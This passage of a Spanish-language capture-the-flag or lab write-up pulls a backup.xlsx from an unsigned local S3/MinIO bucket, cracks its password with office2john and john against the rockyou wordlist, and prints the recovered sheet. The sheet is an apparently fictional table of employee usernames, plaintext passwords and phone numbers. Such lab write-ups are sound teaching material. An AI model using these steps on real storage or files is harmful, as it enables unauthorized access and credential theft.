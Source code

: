 3. `--endpoint-url http://172.17.0.2:9000`
    - **Servidor local** (no es AWS real, probablemente MinIO en Docker)
    - Dirección: `172.17.0.2` 
    - Puerto: `9000`
        
4. `s3 cp`
    - **Comando de copia** para S3
        
5. `s3://huguelogistics-data/backup.xlsx`
    - **Origen**: Archivo Excel en el bucket `huguelogistics-data`
        
6. `.`
    - **Destino**: Directorio actual donde ejecutas el comando
```bash
aws --no-sign-request --endpoint-url http://172.17.0.2:9000 s3 cp s3://huguelogistics-data/backup.xlsx .
```

Archivo descargado:
```bash
download: s3://huguelogistics-data/backup.xlsx to ./backup.xlsx
```

Por lo que vemos es un archivo de **xlsx** parecido a **excel** pero como lo tenemos **libreoffice** lo tendremos que instalar de la siguiente manera:
```bash
sudo apt update
sudo apt install libreoffice -y
```

Una ves instalado intentamos abrir el archivo pero nos pide contrasena:
Asi que usaremos **john** para crakearlo
```bash
office2john backup.xlsx > hash.xlsx
```

Ahora ejeuctamos lo siguiente para crakearlo
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.xlsx
```

Ahora tenemos la credencial para lograr ver el contenido:
```bash
Press 'q' or Ctrl-C to abort, almost any other key for status
password88       (backup.xlsx) 
```

### Credenciales Encontradas:
```xlsx
|ID|Nombre Completo|Correo|Departamento|Rol|Usuario|Contraseña|Teléfono|Ciudad|Fecha de Ingreso|
|1|Juan Antonio Morell Aller|wilfredo66@example.org|Almacén|Operador|juan.antonio.morell.aller|^6hcCUvV#J|+34987 322 009|Guipúzcoa|2024-04-05|
|2|Ligia Molina Luna|candelasvendrell@example.net|Transporte|Supervisor|ligia.molina.luna|_8Gq&BU+3h|+34974 020 715|Guipúzcoa|2021-12-19|
|3|Humberto Madrid Bellido|carrenorosalva@example.com|Logística|Auxiliar|humberto.madrid.bellido|9)6v_2HpbW|+34 988 88 61 68|Valencia|2023-05-22|
|4|Jimena Mora Aguilera|zacariascoca@example.net|Transporte|Administrativo|jimena.mora.aguilera|#4M#NiaqQU|+34803 232 379|Zaragoza|2025-01-10|
|5|Sandra del Tudela|qiniguez@example.net|Compras|Jefe de Área|sandra.del.tudela|6hSM5CM&E@|+34884 69 32 88|Segovia|2023-08-30|
|6|Amador Vilanova Mármol|jose-ignacio71@example.org|Transporte|Administrativo|amador.vilanova.mármol|rtPQC(Nq!7|+34872 191 824|Ciudad|2022-03-03|
|7|Bautista Egea Pujol|lacero@example.com|Compras|Supervisor|bautista.egea.pujol|^)FJ!5Cm5R|+34 948026974|Málaga|2020-09-01|
|8|Jeremías Macias Mas|eulaliaalmansa@example.org|Almacén|Supervisor|jeremías.macias.mas|*7@6Zt@)!9|+34800 443 911|Barcelona|2023-09-06|
|9|Adoración Puente Gordillo|sergiocaceres@example.org|Inventario|Supervisor|adoración.puente.gordillo|lAPEiLX*@1|+34871 942 371|Sevilla|2022-05-14|
```